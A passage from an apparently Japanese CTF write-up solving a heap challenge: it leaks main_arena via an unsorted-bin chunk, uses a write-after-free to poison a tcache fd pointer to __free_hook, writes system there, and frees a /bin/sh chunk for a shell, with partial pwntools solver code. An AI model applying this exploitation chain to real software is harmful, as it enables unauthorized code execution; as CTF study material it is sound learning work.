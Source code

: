 ```

Free chunk (tcache)
Addr: 0x555555559a90
Size: 0x330
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x555555559dc0
Size: 0x20241
```


この状態でlistをfreeさせ、tcachebinsにあるサイズ(違うと、unsortedbinにあるchunkからchunkを獲得してしまう。)でガチャをまわすとunsorted binのfree chunkが読まれて、main_arena+96のアドレスが確認できる。
これより__free_hookとsystemのアドレスを確保する。

### Aribtrary write
Ceilingを利用する。 Ceilingではガチャで天井に行った場合、一つの値を自分が欲しい値に変えられる。
しかし、ここにもfreeされた部分に対する確認がなく、freeされてもcountは残っているため Write after freeがある。
ceilingではtcache_perthread_structに直接書くことができないためすでにfreeされているtcachebinsのchunkのfd_pointerを書き換える。
この書き換えられたポインターにchunkを当てるには二つのchunkが必要。
最初のmallocでtcache_perthread_structに書かれているアドレスにchunkを当てて、その次に書き換えたアドレスにchunkが当てられる。
そのため予め2つのchunkをmallocする必要がある。

### 最終的な動作順番

- malloc(size a)-malloc(size a)-malloc(size for unsorted bin)-malloc(size b)
- free_list
- malloc(size b) : Get the main_arena address and caculate__free_hook and system
- Ceiling x 2 : freeされたsize aのchunkのfd_pointerを__free_hookにする。 int形であるため合計2回の操作が必要
- malloc(size c) * 2 ： このままだとHistoryがfullになって途中で全部初期化されるので予め初期化する。
- malloc(size a)-malloc(size a) : 後のmallocは__free_hookにmallocされる。
- Ceiling x 2 :Ceilingで__free_hookのchunkにsystemのアドレスを入れる。
- malloc(size d) : /bin/shを書くためのchunk. Ceilingで/bin/shをhexで書く。
- size dのchunkをfreeする

### Solverのコードと結果
```
from pwn import *

def gacha(n):
	pc.sendlineafter(">","1")
	pc.sendlineafter(":",str(n))
	result=pc.recvline_endswith(']')
	print('==Gacha {} times=='.format(n))
	return result

def clear():
	pc.sendlineafter(">","3")
	print('==Cleared==')

def ceiling(no,a,target):
	#padding target
	target=str(target)
	target=target[:2]+'0'*(18-len(target))+target[2:]
	print(target)

	temp='0x'+target[-8:] #as is processd by int, get 4bytes of _free_hook address
	print(temp)
	pc.sendlineafter(">","4")
	pc.sendlineafter(">",str(no))
	pc.sendlineafter(">",str(a))
	pc.sendlineafter(">",str(int(temp,16)))

```